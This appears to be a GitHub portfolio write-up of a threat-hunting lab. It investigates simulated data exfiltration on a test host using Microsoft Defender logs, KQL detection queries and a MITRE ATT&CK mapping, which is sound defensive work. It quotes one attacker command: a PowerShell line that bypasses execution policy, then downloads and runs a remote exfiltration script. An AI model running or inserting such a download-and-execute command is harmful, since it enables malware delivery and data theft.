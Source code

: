 # 🛰️ Data Exfiltration Simulation — Incident Response & Detection

**Project Type:** Threat Hunting / Incident Response  
**Date Investigated:** June 21, 2025  
**Tooling:** Microsoft Defender for Endpoint (MDE), KQL (Advanced Hunting), CSV Log Analysis  
**Tags:** `PowerShell`, `Data Exfiltration`, `MITRE ATT&CK`, `Portfolio Project`

---

## 🔍 Overview

In this project, I investigated **suspected data exfiltration** behavior originating from an internal host (`khajitwares`) on the network. Through log analysis and advanced hunting queries, I was able to track the user's activity from the staging of sensitive files to the attempted use of a malicious PowerShell script.

---

## 🧪 Initial Discovery

### 🔹 File Staging

A series of sensitive files were created and staged by the user around **12:13 AM EST**, including:

- `6157_EmployeeRecords.xlsx`
- `9592_CompanyFinancials_2025.xlsx`
- `6036_ProjectList_pwncry.csv`

![image](https://github.com/user-attachments/assets/59365234-eed9-4a9d-8482-378795ff63f2)

[Device File Events Logs](https://drive.google.com/file/d/1zwpaUh1gYOSdzXuPEkvpjMLYO2dywsR0/view?usp=sharing)

These files were stored in paths such as `C:\Users\labuser\Desktop\exfil\` — highly indicative of intent to exfiltrate.

---

### 🔹 Script Download and Execution

At **12:49 AM**, the attacker executed a PowerShell script named `exfiltratedata.ps1` from GitHub using the following command:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../exfiltratedata.ps1 -OutFile C:\ProgramData\exfiltratedata.ps1
```

We know this based on new file creation logs:
Jun 21, 2025 12:49:00 AM
File Created: employee-data-temp2025.csv
Path: C:\ProgramData\employeedata
Initiated By: powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\exfiltratedata.ps1

![image](https://github.com/user-attachments/assets/0c06c774-ba3e-4797-9e7c-85da2f80d254)



### 📊 Timeline Summary 

| Time (EST)   | Event                                                              |
| ------------ | ------------------------------------------------------------------ |
| **11:31 PM** | Sensitive files manually created (CSV/XLSX)                        |
| **12:13 AM** | Sensitive files manually created (CSV/XLSX)                        |
| **12:49 AM** | Script executes and creates new file: `employee-data-temp2025.csv` |



### 🧾 Detection Queries (KQL)


🔹 Search for Script Execution

```
DeviceProcessEvents
| where DeviceName == "khajitwares"
| where timestamp > ago(1d)
| where InitiatingProcessCommandLine has "exfiltratedata.ps1"
```
![image](https://github.com/user-attachments/assets/ed624b24-6f4c-4b21-b587-c91a36ff54bd)


🔹 Review Network Activity Post-Script

```
DeviceNetworkEvents
| where DeviceName == "khajitwares"
| where Timestamp between (datetime(2025-06-21T00:49:00Z) .. datetime(2025-06-21T01:00:00Z))
| order by Timestamp desc
```

Nothing out of the ordinary was spotted following the above Query

🔹 Sensitive File Access Review

```
DeviceFileEvents
| where DeviceName == "khajitwares"
| where Timestamp > datetime(2025-06-21T00:47:00Z)
| where FileName endswith ".csv" or FileName endswith ".xlsx" or FileName endswith ".docx" or FileName endswith ".pdf" or FileName endswith ".txt"
| where ActionType in ("FileRead", "FileCreated", "FileModified", "FileAccessed", "FileDeleted")
| project Timestamp, FileName, FolderPath, ActionType, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by Timestamp desc
```

![image](https://github.com/user-attachments/assets/a20cd99f-c3bb-41e5-b46a-cf0a194d02c1)


### 🚫 Final Outcome

Despite staging sensitive business data and executing a data exfiltration script, no evidence of actual data transfer was identified. Network logs reviewed from 12:49 PM onward revealed no new or suspicious outbound connections during the timeframe expected for exfiltration.



### 🔁 Confirmed MITRE ATT&CK Techniques
| Technique ID  | Name                   | Description / Evidence                      |
| ------------- | ---------------------- | ------------------------------------------- |
| **T1059.001** | PowerShell             | Used to invoke and execute the exfil script |
| **T1105**     | Remote File Copy       | Script downloaded from GitHub               |
| **T1560.001** | Archive via Utility    | `7z.exe` usage detected                     |
| **T1020**     | Automated Exfiltration | Script behavior implies automation          |
| **T1005**     | Data from Local System | Sensitive business data accessed            |
